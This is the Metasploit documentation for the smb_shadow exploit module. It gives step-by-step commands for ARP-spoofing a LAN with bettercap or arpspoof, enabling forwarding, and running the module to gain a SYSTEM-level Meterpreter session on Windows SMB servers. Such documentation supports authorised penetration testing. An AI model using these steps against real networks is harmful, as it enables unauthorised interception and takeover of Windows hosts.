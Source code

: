 ## Vulnerable Application

To be able to use exploit/windows/smb/smb_shadow, you must meet these requirements:

* There is a Windows SMB Server on the LAN
* There is a Windows SMB Client on the LAN
* Metasploit is running will full local socket access (e.g. as root user)

## Verification Steps

1. Ensure Windows SMB Client and Server are on the LAN
2. Run bettercap targeting both the SMB Client and Server (`bettercap -I <iface> -T <smb-client-ip>,<smb-server-ip>`)
3. Start msfconsole (`sudo msfconsole`)
4. Do `use exploit/windows/smb/smb_shadow`
5. Do `set INTERFACE <iface>`
6. Do `set DefangedMode false`
7. Do `run`
8. Make a SMB Client connect to the SMB Server as an Administrator
9. Receive a Meterpreter Session as SYSTEM on the SMB Server host

## Options

### SHARE

This must be a SMB share that the connecting user has read and write access to.
SHARE is set to `ADMIN$` by default which is the standard share for the Administrator.

### INTERFACE

This must be a network interface on the local machine.
The interface must be on the same network as both the SMB Client and Server.

### DefangedMode

This must be set to false to acknowledge that the module will affect your network configuration.
DefangedMode is set to true by default to prevent unintentional network configuration disruptions.

### DisableFwd

This must be set to false if packet forwarding on port 445 was disabled manually.
DisableFwd is set to true by default to allow the module to disable packet forwarding on port 445.

### ConfirmServerDialect

This must be set to true to have the module confirm the server supports the lowest smb version supported by the client.
ConfirmServerDialect is set to false by default as the above situation is unlikely.

## Scenarios

**Active Windows Network**

Follow the following steps to target all the hosts on the LAN:

1. Run bettercap targeting the entire LAN (`bettercap -I <iface>`)
2. Start msfconsole (`sudo msfconsole`)
3. Do `use exploit/windows/smb/smb_shadow`
4. Do `set INTERFACE <iface>`
5. Do `set DefangedMode false`
6. Do `run`
7. Wait for any SMB Client to connect to any SMB Server as an Administrator
8. Receive a Meterpreter Session as SYSTEM on the SMB Server host

## Notes

This module has a tendency to spawn multiple sessions due to the SMB Client retrying the connection.

This module will not finish execution by itself and should be terminated with Ctrl-C.

Follow the following steps to use arpspoof instead of bettercap on Linux:

1. Enable ipv4 forwarding (`sysctl -w net.ipv4.ip_forward=1`)
2. Start arpspoof targeting the SMB Client (`arpspoof -i <iface> -t <smb-client-ip> <smb-server-ip>`)
3. Start arpspoof targeting the SMB Server (`arpspoof -i <iface> -t <smb-server-ip> <smb-client-ip>`)
